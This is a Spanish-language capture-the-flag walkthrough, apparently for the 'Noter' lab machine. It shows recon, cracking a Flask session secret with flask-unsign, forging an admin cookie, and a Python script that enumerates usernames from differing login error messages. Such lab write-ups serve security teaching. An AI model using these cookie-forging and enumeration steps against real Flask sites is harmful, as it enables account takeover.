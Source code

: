 10.10.11.160 Noter
------------------

Puertos abiertos 21(ftp), 22(ssh) y 5000(http)

```console
└─$ whatweb http://10.10.11.160:5000http://10.10.11.160:5000 [200 OK] Bootstrap[3.3.7], HTML5, HTTPServer[Werkzeug/2.0.2 Python/3.8.10], IP[10.10.11.160], Python[3.8.10], Script[text/javascript], Title[Noter],
```
----------------------

# Parte 1: Reconocimiento Web

Es una web de notas, como va por Python es muy probable que haya un STTI.
- En el apartado /VIP dice que **No pueden dar membresias por un problema en el backend**
- EN /edit_note me sale directamente la 3, como que hay dos notas antes si pongo 1 o 2 da error sql.

```console
└─$ curl -s http://10.10.11.160:5000/edit_note/1 --cookie "session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiY3VjdXhpaXt7Nyo3fX0ifQ.Y1lb4g.TD5K_B9pe7Z0nyo3R8DA4PmwjRM"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
```
Probamos fuzzing pero no hay resultados.

------------------------------

# Parte 2: Obtencion de un usaurio

La cookie ```eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiY3VjdXhpaXt7Nyo3fX0ifQ.Y1lb4g.TD5K_B9pe7Z0nyo3R8DA4PmwjRM```se decodifica en 
```{"logged_in": true, "username": "cucuxii"}```,  esa es la tipica estrucutra de las cookies de flask.
```console
└─$ flask-unsign --unsign --wordlist '/usr/share/wordlists/rockyou.txt' --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiY3VjdXhpaXt7Nyo3fX0ifQ.Y1lb4g.TD5K_B9pe7Z0nyo3R8DA4PmwjRM' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'cucuxii'}
b'secret123'
└─$ flask-unsign --sign  --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Y1llwA.mVo32E2J2WotjCks0t69am5TCV8
```
Cuando meto la cookie en la web me da error "Unauthorized" porque el usuario admin no existe.

### Fuzzing panel de login

Como pone "Invalid Crendentials" probe a fuzzear el nombre de usuario (ya que si pongo el mio, que existe, pone "Invalid Login")
Me cree un sccript para hacer el fuzzing de usaurios:
```python3
#!/bin/python3
import requests

main_url = "http://10.10.11.160:5000/login"
intento = 0
file = open('/usr/share/seclists/Usernames/Names/names.txt','r')
for name in file.readlines():
    name = name.strip()
    data = {'username': name ,'password':'test'}
    req = requests.post(main_url, data)
    intento += 1
    print(f"{intento}:  {name}")
    if "Invalid credentials" not in req.text:
        break
```

